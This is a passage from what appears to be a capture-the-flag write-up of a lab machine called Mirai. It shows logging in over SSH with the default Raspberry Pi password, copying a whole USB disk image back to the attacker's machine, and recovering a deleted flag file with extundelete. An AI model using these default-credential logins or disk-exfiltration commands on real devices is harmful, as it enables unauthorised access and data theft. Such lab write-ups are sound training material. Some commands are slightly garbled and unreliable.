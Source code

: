 I’ll break that down a bit:
- `sshpass -p raspberry` - use the password “raspberry” for the following SSH command (like `ssh` and `scp`)
- `ssh pi@10.10.10.48 "[command]"` - SSH into Mirai and run the command
- `sudo dd if=/dev/sdb` - read all of `/dev/sdb` and print it to STDOUT
- `| gzip -1 -` - compress the file read from STDIN (`-`) and print the result to STDOUT
- The result of that command run over SSH is now printed to STDOUT on my local VM
- `| dd =of=usb.gz` - write that output to `usb.gz`

I’ll decompress it:

```

oxdf@hacky$ file usb.gz 
usb.gz: gzip compressed data, last modified: Mon May 16 17:37:15 2022, max speed, from Unix, original size modulo 2^32 10485760
oxdf@hacky$ gunzip usb.gz 
oxdf@hacky$ file usb 
usb: Linux rev 1.0 ext4 filesystem data, UUID=635bcd7f-1d95-4229-bf13-3e722026db3c (extents) (huge files)
oxdf@hacky$ ls -hl usb 
-rwxrwx--- 1 root vboxsf 10M May 16 17:37 usb

```

The resulting file is a 10M ext4 partition.

#### extundelete

`extundelete` is a [data recovery utility](http://extundelete.sourceforge.net/) that works here to recover `root.txt`. I’ll install it (`sudo apt install extundelete`) and then run it with the `--recover-all` flag:

```

oxdf@hacky$ extundelete usb --restore-all
NOTICE: Extended attributes are not restored.
Loading filesystem metadata ... 2 groups loaded.
Loading journal descriptors ... 23 descriptors loaded.
Searching for recoverable inodes in directory / ... 
1 recoverable inodes found.
Looking through the directory structure for deleted files ... 
0 recoverable inodes still lost.

```

It claims to recover one file, and there’s a new `RECOVERED_FILES` directory. It has `root.txt`:

```

oxdf@hacky$ cat RECOVERED_FILES/root.txt
3d3e4831************************

```

#### Others
